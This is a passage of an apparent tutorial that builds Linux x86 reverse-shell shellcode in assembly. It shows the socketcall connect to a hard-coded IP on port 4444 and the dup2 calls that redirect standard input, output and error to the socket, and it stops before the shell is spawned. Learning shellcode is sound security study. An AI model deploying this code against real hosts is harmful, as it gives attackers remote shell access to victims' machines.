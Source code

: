 ```asm
```
Return value will be sockfd stored in EAX.  Since EAX is used for our socketcall argument, we need to move it to a register for safe keeping which will be edi.
```asm
mov edi, eax
```
### Connect to an IP and port
Now that we have the sockfd, it's time to connect the socket to an IP and port.\
\
As we created earlier, our reference is:\
int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
Just for my own understanding, I'll write out the socketcall format with any structs or objects in {}.\
socketcall( SYS_CONNECT, {sockfd, {AF_INET, 4444, [IP]}, 0x10} );\
EAX - 0x66\
EBX - 0x3\
ECX - pointing to stack:\
STACK: edi, point to struct, 0x10, struct{0x2, 0x115C, 0x83f7a8c0}\
\
Lets build this in assembly now:
```asm
mov al, 0x66
inc ebx      ; previously set to 0x1 -> increase it to 2

; push struct to stack
push 0x83f7a8c0       ; ip: aton(192.168.247.131) - 0x83f7a8c0
push word 0x5C11           ; port: htons(4444) - 0x5C11
push bx               ; AF_INET = 2

;store reference to struct
mov ecx, esp

; push bind args
push 0x10      ; sizeof(sock_addr) = 0x10
push ecx       ; struct sock_addr
push edi       ; sockfd

mov ecx, esp
int 0x80
```
### Redirect output
Now that we have accepted the connection, we need to redirect in, out, & err.
The return value for accept is the descriptor for the client connection, which will be used as an argument for dup2 in ebx.  We can just move this from eax to ebx first.\
dup2(client_socket, 0);\
dup2(client_socket, 1);\
dup2(client_socket, 2);\
This translates to:\
EAX - 0x3f\
EBX - return value from accept\
ECX - integer 2, 1, or 0
Since this is the same call 3 times and the only difference is an increasing (*hint* or decreasing) int.. this looks like a loop would be best to use here.\
Luckily, our loop only needs to decrease from 2.  ECX can be used as the counter AND the argument, which helps us out a lot here.
